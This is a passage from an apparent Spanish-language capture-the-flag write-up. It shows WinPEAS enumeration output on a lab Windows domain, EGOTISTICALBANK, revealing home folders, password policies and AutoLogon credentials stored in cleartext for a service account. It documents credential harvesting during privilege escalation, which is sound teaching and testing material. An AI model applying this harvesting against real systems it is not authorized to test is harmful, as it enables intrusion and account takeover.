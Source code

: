 ```batch

ADVISORY: winpeas should be used for authorized penetration testing and/or educational purposes only.Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own devices and/or with the device owner's permission.                                                                                                                                                 
                                                                                                                                                                                                                 
  WinPEAS-ng by @hacktricks_live
...
...
...
ÉÍÍÍÍÍÍÍÍÍÍ¹ Home folders found
    C:\Users\Administrator
    C:\Users\All Users
    C:\Users\Default
    C:\Users\Default User
    C:\Users\FSmith : FSmith [AllAccess]
    C:\Users\Public
    C:\Users\svc_loanmgr

ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!

ÉÍÍÍÍÍÍÍÍÍÍ¹ Password Policies
È Check for a possible brute-force 
    Domain: Builtin
    SID: S-1-5-32
    MaxPasswordAge: 42.22:47:31.7437440
    MinPasswordAge: 00:00:00
    MinPasswordLength: 0
    PasswordHistoryLength: 0
    PasswordProperties: 0
   =================================================================================================

    Domain: EGOTISTICALBANK
    SID: S-1-5-21-2966785786-3096785034-1186376766
    MaxPasswordAge: 42.00:00:00
    MinPasswordAge: 1.00:00:00
    MinPasswordLength: 7
    PasswordHistoryLength: 24
    PasswordProperties: DOMAIN_PASSWORD_COMPLEX
...
...
...
```
Excelente, encontró la contraseña del **usuario svc_loanmng** en texto claro, aunque aparece con su nombre completo.
